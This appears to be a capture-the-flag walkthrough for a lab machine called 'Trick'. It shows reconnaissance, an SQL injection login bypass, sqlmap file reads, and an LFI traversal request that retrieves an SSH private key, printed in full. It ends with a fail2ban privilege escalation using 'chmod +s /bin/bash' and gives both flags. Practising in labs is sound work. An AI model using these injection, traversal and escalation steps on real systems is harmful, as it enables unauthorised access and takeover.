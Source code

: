 `sudo nmap -sC -sS 10.10.11.166 -oA trick`

`sudo rustscan -a 10.10.11.166 --scripts none --ulimit 5000`

```txt
Open 10.10.11.166:22
Open 10.10.11.166:25
Open 10.10.11.166:53
Open 10.10.11.166:80
10.10.11.166 -> [22,25,53,80]
```

`sudo rustscan -a 10.10.11.166 -p 22,25,53,80 -- -sC -sV`

```txt
Nmap scan report for trick.htb (10.10.11.166)
Host is up, received echo-reply ttl 63 (0.050s latency).
Scanned at 2022-07-16 06:04:10 EDT for 48s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 61:ff:29:3b:36:bd:9d:ac:fb:de:1f:56:88:4c:ae:2d (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC5Rh57OmAndXFukHce0Tr4BL8CWC8yACwWdu8VZcBPGuMUH8VkvzqseeC8MYxt5SPL1aJmAsZSgOUreAJNlYNBBKjMoFwyDdArWhqDThlgBf6aqwqMRo3XWIcbQOBkrisgqcPnRKlwh+vqArsj5OAZaUq8zs7Q3elE6HrDnj779JHCc5eba+DR+Cqk1u4JxfC6mGsaNMAXoaRKsAYlwf4Yjhonl6A6MkWszz7t9q5r2bImuYAC0cvgiHJdgLcr0WJh+lV8YIkPyya1vJFp1gN4Pg7I6CmMaiWSMgSem5aVlKmrLMX10MWhewnyuH2ekMFXUKJ8wv4DgifiAIvd6AGR
|   256 9e:cd:f2:40:61:96:ea:21:a6:ce:26:02:af:75:9a:78 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBAoXvyMKuWhQvWx52EFXK9ytX/pGmjZptG8Kb+DOgKcGeBgGPKX3ZpryuGR44av0WnKP0gnRLWk7UCbqY3mxXU0=
|   256 72:93:f9:11:58:de:34:ad:12:b5:4b:4a:73:64:b9:70 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGY1WZWn9xuvXhfxFFm82J9eRGNYJ9NnfzECUm0faUXm
25/tcp open  smtp    syn-ack ttl 63 Postfix smtpd
|_smtp-commands: debian.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN, SMTPUTF8, CHUNKING
53/tcp open  domain  syn-ack ttl 63 ISC BIND 9.11.5-P4-5.1+deb10u7 (Debian Linux)
| dns-nsid: 
|_  bind.version: 9.11.5-P4-5.1+deb10u7-Debian
80/tcp open  http    syn-ack ttl 63 nginx 1.14.2
|_http-title: Coming Soon - Start Bootstrap Theme
|_http-favicon: Unknown favicon MD5: 556F31ACD686989B1AFCF382C05846AA
| http-methods: 
|_  Supported Methods: GET HEAD
|_http-server-header: nginx/1.14.2
Service Info: Host:  debian.localdomain; OS: Linux; CPE: cpe:/o:linux:linux_kernel

NSE: Script Post-scanning.
NSE: Starting runlevel 1 (of 3) scan.
Initiating NSE at 06:04
Completed NSE at 06:04, 0.00s elapsed
NSE: Starting runlevel 2 (of 3) scan.
Initiating NSE at 06:04
Completed NSE at 06:04, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 06:04
Completed NSE at 06:04, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 48.26 seconds
           Raw packets sent: 8 (328B) | Rcvd: 5 (204B)
```

`nslookup`
`SERVER 10.10.11.166 #Select dns server`
`127.0.0.1`
`10.10.11.166`

After trying with different dns enum, we found the hostname:
`166.11.10.10.in-addr.arpa       name = trick.htb.`

Let's add this in /etc/hosts file.

Let's try to enemurate more:
`dig any @10.10.11.166 trick.htb`

We got a subdomain root.trick.htb

`dig axfr @10.10.11.166 trick.htb`

preprod-payroll.trick.htb

http://preprod-payroll.trick.htb/login.php

Now let's try to find out more domains if there is any:

`ffuf -w /usr/share/wordlists/bitquark-subdomains-top100000.txt -u http://trick.htb/ -H "Host: FUZZ.trick.htb"`

No luck with fuzzing. Let's try to login via SQL injection with `admin' or '1'='1`
Logged in!
From settings we found the password:
`SuperGucciRainbowCake`

Now as we know the site is vulnerable, we tried to perform sql injection by a saved request file with sqlmap:

We found the DB name `payroll_db` and now we will try to see if we can read any file in the server....

`sqlmap -r sql.reqfile --dbms mysql -D payroll_db --file-read=/etc/passwd --threads 10`

Seems like we were able to read the files. So after enemurating more, we suspected that some useful information about nginx.

https://thatcoder.space/nginx-configurations-and-hacks/

We tried to read the site's nginx configuration to understand it better.

`sqlmap -r sql.reqfile --dbms mysql -D payroll_db --file-read=/etc/nginx/nginx.conf --threads 10`

`sqlmap -r sql.reqfile --dbms mysql -D payroll_db --file-read=/etc/nginx/sites-enabled/default --threads 10`

After going through the files, we found another subdomain `market` in which we suspected LFI vulnerability. So to perform the LFI, we triend to read the index page to see if any filter was used to bypass LFI.

`sqlmap -r sql.reqfile --dbms mysql -D payroll_db --file-read=/var/www/market/index.php --threads 10`

We found the filter and we bypassed it to perform LFI. We found the OPENSSH private key in the `/home/michael/.ssh/id_rsa` file.

`GET /index.php?page=..././..././..././home/michael/.ssh/id_rsa`

Full request:
```txt
GET /index.php?page=..././..././..././home/michael/.ssh/id_rsa HTTP/1.1

Host: preprod-marketing.trick.htb

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/96.0.4664.45 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9

Accept-Encoding: gzip, deflate

Accept-Language: en-US,en;q=0.9

Connection: close
```

```txt
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABFwAAAAdzc2gtcn
NhAAAAAwEAAQAAAQEAwI9YLFRKT6JFTSqPt2/+7mgg5HpSwzHZwu95Nqh1Gu4+9P+ohLtz
c4jtky6wYGzlxKHg/Q5ehozs9TgNWPVKh+j92WdCNPvdzaQqYKxw4Fwd3K7F4JsnZaJk2G
YQ2re/gTrNElMAqURSCVydx/UvGCNT9dwQ4zna4sxIZF4HpwRt1T74wioqIX3EAYCCZcf+
4gAYBhUQTYeJlYpDVfbbRH2yD73x7NcICp5iIYrdS455nARJtPHYkO9eobmyamyNDgAia/
Ukn75SroKGUMdiJHnd+m1jW5mGotQRxkATWMY5qFOiKglnws/jgdxpDV9K3iDTPWXFwtK4
1kC+t4a8sQAAA8hzFJk2cxSZNgAAAAdzc2gtcnNhAAABAQDAj1gsVEpPokVNKo+3b/7uaC
DkelLDMdnC73k2qHUa7j70/6iEu3NziO2TLrBgbOXEoeD9Dl6GjOz1OA1Y9UqH6P3ZZ0I0
+93NpCpgrHDgXB3crsXgmydlomTYZhDat7+BOs0SUwCpRFIJXJ3H9S8YI1P13BDjOdrizE
hkXgenBG3VPvjCKiohfcQBgIJlx/7iABgGFRBNh4mVikNV9ttEfbIPvfHs1wgKnmIhit1L
jnmcBEm08diQ716hubJqbI0OACJr9SSfvlKugoZQx2Iked36bWNbmYai1BHGQBNYxjmoU6
IqCWfCz+OB3GkNX0reINM9ZcXC0rjWQL63hryxAAAAAwEAAQAAAQASAVVNT9Ri/dldDc3C
aUZ9JF9u/cEfX1ntUFcVNUs96WkZn44yWxTAiN0uFf+IBKa3bCuNffp4ulSt2T/mQYlmi/
KwkWcvbR2gTOlpgLZNRE/GgtEd32QfrL+hPGn3CZdujgD+5aP6L9k75t0aBWMR7ru7EYjC
tnYxHsjmGaS9iRLpo79lwmIDHpu2fSdVpphAmsaYtVFPSwf01VlEZvIEWAEY6qv7r455Ge
U+38O714987fRe4+jcfSpCTFB0fQkNArHCKiHRjYFCWVCBWuYkVlGYXLVlUcYVezS+ouM0
fHbE5GMyJf6+/8P06MbAdZ1+5nWRmdtLOFKF1rpHh43BAAAAgQDJ6xWCdmx5DGsHmkhG1V
PH+7+Oono2E7cgBv7GIqpdxRsozETjqzDlMYGnhk9oCG8v8oiXUVlM0e4jUOmnqaCvdDTS
3AZ4FVonhCl5DFVPEz4UdlKgHS0LZoJuz4yq2YEt5DcSixuS+Nr3aFUTl3SxOxD7T4tKXA
fvjlQQh81veQAAAIEA6UE9xt6D4YXwFmjKo+5KQpasJquMVrLcxKyAlNpLNxYN8LzGS0sT
AuNHUSgX/tcNxg1yYHeHTu868/LUTe8l3Sb268YaOnxEbmkPQbBscDerqEAPOvwHD9rrgn
In16n3kMFSFaU2bCkzaLGQ+hoD5QJXeVMt6a/5ztUWQZCJXkcAAACBANNWO6MfEDxYr9DP
JkCbANS5fRVNVi0Lx+BSFyEKs2ThJqvlhnxBs43QxBX0j4BkqFUfuJ/YzySvfVNPtSb0XN
jsj51hLkyTIOBEVxNjDcPWOj5470u21X8qx2F3M4+YGGH+mka7P+VVfvJDZa67XNHzrxi+
IJhaN0D5bVMdjjFHAAAADW1pY2hhZWxAdHJpY2sBAgMEBQ==
-----END OPENSSH PRIVATE KEY-----
```

Let's save it as key.pem

Now, give the file proper permission:
`chmod 400 key.pem`

Let's try to log in via SSH:
`ssh michael@10.10.11.166 -i key.pem`

As we are in, the user flag is in user.txt file
User Flag: `c5baa4266e32e2ae5b21d804be5bd738`

Now let's try to find the priviledges by running `sudo -l`

```txt
User michael may run the following commands on trick:
    (root) NOPASSWD: /etc/init.d/fail2ban restart
```

After searcing the internet, we found some blog worth looking into!

https://grumpygeekwrites.wordpress.com/2021/01/29/privilege-escalation-via-fail2ban/
https://www.youtube.com/watch?v=zDf2hpCu7D0&t=1187s&ab_channel=HackingWalkthroughs

`cd /etc/fail2ban/action.d`

We followed the guideline and did the following....

Edited the `iptables-multiport.conf` file wit vim and replaced the commands of `actionban` and `actionunban`  with `chmod +s /bin/bash`

`actionban = chmod +s /bin/bash`
`actionunban = chmod +s /bin/bash`

Then we saved the file using `:wq!` command.

Then we restarted the fail2ban service by running the following command:
`sudo /etc/init.d/fail2ban restart`

After the service restarted, we tried to attempt failed login so that our command executes.

`sshpass -p test ssh miachael@10.10.11.166`

While attempting, we watched the permission of bash shell using `watch -n 0 ls -la /bin/bash` command.

After 5 times failed attempt, we saw that our permission of bash file changed. Now we tried to run the bash shell using `bash -p` command.

Now we have root!

We found the root flag in /root/root.txt

Root Flag: `b03a2e8b76cf2b89c0b173ee5fd5bb72`
